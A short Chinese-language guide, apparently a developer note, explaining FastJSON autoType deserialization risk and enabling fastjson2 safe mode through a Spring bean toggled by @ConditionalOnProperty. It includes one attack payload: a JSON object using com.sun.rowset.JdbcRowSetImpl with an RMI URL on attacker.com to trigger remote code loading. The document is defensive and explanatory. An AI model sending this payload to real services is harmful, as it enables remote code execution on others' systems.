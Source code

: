 ## FastJSON 安全模式
FastJSON 的 `autoType` 允许 JSON 反序列化时，根据 `@type` 字段自动解析 Java 类。例如：

```json
{
  "@type": "com.example.User",
  "name": "Alice",
  "age": 25
}
```

如果 `autoType` 开启，FastJSON 会自动将 JSON 解析为 `com.example.User` 实例。

而如果是这种：

```json
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "rmi://attacker.com:1099/Exploit",
  "autoCommit": true
}
```

就会导致  FastJSON 连接到 `attacker.com` 并执行 RMI 远程代码。  

而解决方案就是设置属性 `fastjson2.parser.safeMode` 为 `true`。

即：

```java
System.setProperty("fastjson2.parser.safeMode", "true");
```

FastJSON 会在解析 JSON 之前检查该属性是否被设置。

为了能够将此配置配置成可以通过配置文件来选择是否开启，可以通过注解 `@ConditionalOnProperty` 来完成。因为该注解是作用于 Bean 的，所以，要将上面开启安全模式的语句封装成一个 Bean：

```java
public class FastJsonSafeMode implements InitializingBean {

    @Override
    public void afterPropertiesSet() throws Exception {
        System.setProperty("fastjson2.parser.safeMode", "true");
    }
}
```

实现 `InitalizingBean` 的目的是当 BeanFactory 设置好了所有属性的时候，再设置该属性。

下面，通过 `@ConditionalOnProperty` 来实现可以通过配置文件来配置是否启用该选项：

```java
public class ApplicationBaseAutoConfiguration {
    @Bean
    @ConditionalOnMissingBean
    @ConditionalOnProperty(value = "framework.fastjson.safa-mode", havingValue = "true")
    public FastJsonSafeMode congoFastJsonSafeMode() {
        return new FastJsonSafeMode();
    }
}
```
